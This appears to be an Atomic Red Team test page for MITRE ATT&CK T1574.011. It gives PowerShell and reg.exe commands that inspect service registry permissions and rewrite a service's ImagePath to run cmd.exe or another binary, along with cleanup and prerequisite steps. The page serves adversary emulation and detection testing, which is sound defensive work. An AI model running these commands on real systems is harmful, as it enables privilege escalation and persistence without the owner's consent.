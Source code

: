 ```yaml
---
tags: [T1574_011, atomic_test]
filename: "[[T1574.011 - Hijack Execution Flow- Services Registry Permissions Weakness]]"
---
```

# T1574.011 - Hijack Execution Flow: Services Registry Permissions Weakness

## Atomic Test #1 - Service Registry Permissions Weakness
Service registry permissions weakness check and then which can lead to privilege escalation with ImagePath. eg.
reg add "HKLM\SYSTEM\CurrentControlSet\Services\#{weak_service_name}" /f /v ImagePath /d "C:\temp\AtomicRedteam.exe"

**Supported Platforms:** Windows


**auto_generated_guid:** f7536d63-7fd4-466f-89da-7e48d550752a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| weak_service_name | weak service check | string | weakservicename|


#### Attack Commands: Run with `powershell`! 


```powershell
get-acl REGISTRY::HKLM\SYSTEM\CurrentControlSet\Services\* |FL
get-acl REGISTRY::HKLM\SYSTEM\CurrentControlSet\Services\#{weak_service_name} |FL
```






<br/>
<br/>

## Atomic Test #2 - Service ImagePath Change with reg.exe
Change Service registry ImagePath of a bengin service to a malicious file

**Supported Platforms:** Windows


**auto_generated_guid:** f38e9eea-e1d7-4ba6-b716-584791963827





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| weak_service_name | weak service name | string | calcservice|
| weak_service_path | weak service path | string | %windir%&#92;system32&#92;win32calc.exe|
| malicious_service_path | malicious service path | string | %windir%&#92;system32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
reg.exe add "HKLM\SYSTEM\CurrentControlSet\Services\#{weak_service_name}" /f /v ImagePath /d "#{malicious_service_path}"
```

#### Cleanup Commands:
```cmd
sc.exe delete #{weak_service_name}
```



#### Dependencies:  Run with `powershell`!
##### Description: The service must exist (#{weak_service_name})
##### Check Prereq Commands:
```powershell
if (Get-Service #{weak_service_name}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
sc.exe create #{weak_service_name} binpath= "#{weak_service_path}"
```




<br/>
